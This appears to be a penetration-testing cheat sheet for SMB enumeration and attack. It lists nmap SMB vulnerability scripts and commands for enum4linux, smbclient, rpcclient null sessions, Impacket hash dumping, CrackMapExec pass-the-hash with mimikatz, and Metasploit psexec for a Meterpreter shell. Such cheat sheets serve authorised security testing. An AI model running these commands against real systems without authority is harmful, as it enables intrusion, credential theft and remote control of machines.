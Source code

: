 # SMB Enumeration Tools

### Nmap Enumeration
```
$ ls -lh /usr/share/nmap/scripts/ | grep smb
-rw-r--r-- 1 root root  3355 Oct 12 09:29 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12 09:29 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12 09:29 smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12 09:29 smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Oct 12 09:29 smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12 09:29 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Oct 12 09:29 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12 09:29 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12 09:29 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12 09:29 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12 09:29 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12 09:29 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12 09:29 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12 09:29 smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12 09:29 smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12 09:29 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12 09:29 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12 09:29 smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12 09:29 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12 09:29 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12 09:29 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12 09:29 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12 09:29 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12 09:29 smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Oct 12 09:29 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Oct 12 09:29 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Oct 12 09:29 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12 09:29 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12 09:29 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12 09:29 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12 09:29 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12 09:29 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12 09:29 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12 09:29 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12 09:29 smb-webexec-exploit.nse
$ nmap x.x.x.x -v -p 139,445 --script=exampleScript1.nse,exampleScript2.nse
```

### Enum4linux

All simple checks:
```
enum4linux -a x.x.x.x
```

Brute force guessing for share names:
`enum4linux -s /usr/share/enum4linux/share-list.txt x.x.x.x`

### Nmap: 
- `nmap --script smb-* -p 139,445, 172.21.0.0`
- `nmap --script smb-enum-* -p 139,445, 172.21.0.0`

```
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
```

### SMBmap

```
$ smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
$ smbmap -H 172.21.0.0 -d [domain] -u "" -p ""
```

### SMBClient
```
$ smbclient -L 172.21.0.0
$ smbclient -L x.x.x.x -U ""
$ smbclient //172.21.0.0/tmp
```

If you have a user name or guest login works:
```
$ smbclient //windows_server_NETBIOS_NAME/destination_folder -U WINDOWS_USER -I x.x.x.x
```
or
```
$ smbclient -L //x.x.x.x -U guest -i x.x.x.x
```

Recursively list a directory:
```
$ smbclient \\\\x.x.x.x\\Folder
smb: \> recurse on             
smb: \> ls
```
Recursively get all files in a share:
```
$ smbget -R smb://x.x.x.x/Folder/ -U Username
```

### Impacket 

```
python3 /usr/share/doc/python3-impacket/examples/smbclient.py username@x.x.x.x
```

```
python3 samdump.py SMB x.x.x.x
```

### Impacket SmbClient: 
```
/usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0
```

### RPCclient

```
rpcclient -U "" -N x.x.x.x enumdomusers
```

Attempt an null connection:
```
rpcclient -U '' x.x.x.x
```

### CrackMapExec

```
$ crackmapexec smb -L 
$ crackmapexec x.x.x.x -u Administrator -H [hash] --local-auth
$ crackmapexec x.x.x.x -u Administrator -H [hash] --share
$ crackmapexec smb x.x.x.0/24 -u user -p 'Password' --local-auth -M mimikatz
```
Attempt an null connection:
```
$ crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```

### Polenum

Attempt an null connection:
```
$ polenum -u '' -p '' -d x.x.x.x
```

### Metasploit

If you have user credentials, you can use them to get a Meterpreter shell on the machine running smb:

```
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS x.x.x.x
msf6 > set SMBUser <username>
msf6 > set SMBPass <password>
msf6 > set RPORT <default_is_445>
msf6 > run
```